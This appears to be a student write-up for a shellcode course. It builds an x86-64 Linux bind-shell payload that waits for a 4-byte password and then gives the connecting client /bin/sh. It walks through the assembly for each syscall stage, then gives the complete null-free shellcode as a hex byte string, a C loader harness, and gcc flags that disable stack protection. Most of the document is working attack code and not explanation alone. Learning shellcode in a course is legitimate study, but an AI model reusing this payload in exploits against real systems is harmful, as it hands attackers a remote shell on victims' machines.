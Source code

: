 # Bindshell with Password

This assignment was split in two parts:
1. Make the BindShell-Shellcode from the class free of nullbytes
2. Create a BindShell-Shellcode which spawns a shell after a certain password has been entered

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Create a socket 

This part of the shellcode basically does:
```
socket(AF_INET, SOCK_STREAM, 0)
```

And is achieved by:
```
    xor rax, rax
    cdq
    push SYS_SOCKET
    pop rax ; RAX contains the socket() syscall
    push AF_INET
    pop rdi ; rdi contains the AF_INET parameter
    push SOCK_STREAM
    pop rsi ; rsi contains the SOCK_STREAM parameter

    SYSCALL
```

The comments should be self-explaining. Note that I made use of the ```push pop``` technique to fill the registers with the right values. The push pop technique avoids null bytes and is shorter then the ```mov``` instruction. 
Also I used cdq to clear out the RDX register which is possible as RAX is 0 at this point.

## Bind the socket
Again the following piece of shellcode is equivalent to this C snippet:
```
bind(sockfd, const struct sockaddr *addr, 16)
```

Assembly:
```
    ; First set up the struct sockaddr_in on the stack
    push rdx        ; sin_zero
    add dx, PORT    ; Place the port in the struct
    shl rdx, 16     ; Shift the port to the right position
    add dx, AF_INET ; add the af_inet flag to the struct
    push rdx        ; Put the struct on the stack
    push rsp
    pop rsi         ; Rsi now points to the struct

    push rax        ; Rax still contains the created socket
    pop rdi         ; The socket is now in Rdi
    push SIZE_STRUCT
    pop rdx         ; Rdx does now contain the size of the struct

    push SYS_BIND
    pop rax         ; Rax equals the syscallnumber for bind

    SYSCALL
```

In order to create the struct I made use of shifting and used the lower bit registers to arrange the struct.

## Listen
C pseudocode:
```
; listen(fd, 2)
```
```
    push rax ; Rax should contain null as bind() is expected to work successfully
    pop RSI
    inc RSI  ; Rsi is now 1
    push SYS_LISTEN
    pop RAX  ; Rax has the syscallnumber for listen

    SYSCALL
```
Nothing surprising here, note that I rely on bind() returning 0 :-)

## Accept:
C pseudocode:
```
    ; accept(sockfd, struct sockaddr *addr, 16)
```
Assembly:
```
    push rsp ; Reuse old struct
    pop rsi  ; Rsi points to struct
    push SIZE_STRUCT
    push RSP 
    pop RDX ; Pointer to the size of the struct in RDX
    push SYS_ACCEPT
    pop RAX

    SYSCALL
```

In this step I reused the old struct on the stack for the accept call. To do so I rely on the fact that the Rsp has the same value as it had during the bind syscall. 

## Authentication
I first read 4 bytes from the new socket an then compare it to a defined constant.

To read the password I did this in C pseudocode:
```
    ; read(fd, *buf, 4)
```

Assembly:
```
    add RSI, 8 ; Make it point to sin_zero of sockaddr. We dont need this anymore
    push RAX ; Rax still contains the accepted socket
    pop RDI ; Rdi contains the new socket
    xor al, al ; Clear out rax
    push 0x4 ; Specify num_bytes to read
    pop RDX

    SYSCALL ; Do the read
```

Note that I store the read password in the sin_zero field of the sockaddr_in struct. I mean ... there are nullbytes already which mark the end of the password. :-)

To compare the entered password with constant I did:
```
    cmp dword[rsi], PASSWORD ; Rsi still points to the sin_zero field which contains the entered pw.
    jne _burn ; Cause a sigsegv upon a wrong password
```

## DUP 2
The next step is to redirect stdin, stdout and stderr to the new socket. Otherwise we would not see any output from the shell as it prints out to stdout, not to the socket.

For this I created a loop which decrements a counter starting from 2-0. It starts from 2 as 2 marks stderr and 0 stdin.

Assembly:
```
_dup2:
   ; dup2(client, STDIN)
   ; dup2(client, STDOUT)
   ; dup2(client, STERR)

    push 3 
    pop rsi

_loop:
    
    dec esi
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop
```

## Finally call execve
This is a pretty standard way to call execve('/bin/sh', NULL, NULL)
```

    cdq ; Null out rdx. Rax should still be zero because the last dup2() redirected stdin.
    push rax    
    mov rax, BINSH ; BINSH hexstring in rax
    push rax           
    push rsp ; get a pointer to binsh
    pop rdi           

    xor rax, rax
    mov al, SYS_EXECVE 
    syscall
```

In order to test this shellcode I made use of the following C snippet:
```

#include <string.h>
 
char shellcode[] = "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\x66\x81\xc2\x11\x5c\x48\xc1\xe2\x10\x66\x83\xc2\x02\x52\x54\x5e\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x50\x5e\x48\xff\xc6\x6a\x32\x58\x0f\x05\x54\x5e\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x48\x83\xc6\x08\x50\x5f\x30\xc0\x6a\x04\x5a\x0f\x05\x81\x3e\x41\x41\x41\x41\x75\x22\x6a\x03\x5e\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x99\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x54\x5f\x48\x31\xc0\xb0\x3b\x0f\x05";
 
main(void)
{       
        printf("Shellcode length: %d\n", (int)strlen(shellcode));
 
        /* pollute registers and call shellcode */
        __asm__ (        "mov $0xffffffffffffffff, %rax\n\t"
                         "mov %rax, %rbx\n\t"
                         "mov %rax, %rcx\n\t"
                         "mov %rax, %rdx\n\t"
                         "mov %rax, %rsi\n\t"
                         "mov %rax, %rdi\n\t"
                         "mov %rax, %rbp\n\t"
 
                         "call shellcode"       );
}
 
```

Compile:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```



